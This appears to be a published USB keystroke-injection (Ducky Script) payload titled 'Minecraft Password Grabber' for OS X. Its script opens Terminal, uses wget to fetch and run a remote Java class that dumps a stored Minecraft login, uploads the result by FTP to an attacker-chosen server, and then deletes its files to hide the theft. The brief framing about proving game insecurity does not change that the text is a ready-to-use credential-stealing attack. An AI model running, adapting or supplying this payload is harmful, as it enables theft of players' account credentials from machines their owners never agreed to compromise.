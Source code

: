 This is a payload for all of the gamers that dumps the minecraft password and sends it via ftp to the server of your choice.  Works only on OS X because there aren't a whole lot of practical uses for this other than to prove how insecure some games are. Requires a web server, and an ftp server. You need to host [this file](https://app.box.com/s/3svc1gvulsqrtusj4eqg) on the root of the webserver (do not change the name or else it won't run)


    REM Author: Jesse Wallace
    REM Title: Minecraft Password Grabber
    REM This payload dumps the minecraft password and uploads it via ftp.
    REM Fill in all of the information for your server below
    DELAY 1000
    GUI SPACE
    STRING terminal
    DELAY 500
    ENTER
    DELAY 4000
    STRING wget WEBSERVER/mcsteal.class
    ENTER
    DELAY 500
    STRING java mcsteal >> lastlogin.txt
    ENTER
    DELAY 300
    STRING ftp -i FTPSERVER
    ENTER
    DELAY 800
    STRING USERNAME
    ENTER
    STRING PASSWORD   
    ENTER
    DELAY 400
    STRING send
    ENTER
    DELAY 100
    STRING lastlogin.txt
    ENTER
    STRING minecraftpassword.txt
    ENTER
    DELAY 1000
    STRING exit
    ENTER
    DELAY 200
    STRING rm -rf lastlogin.txt mcsteal.class
    ENTER
    DELAY 100
    STRING exit
    ENTER
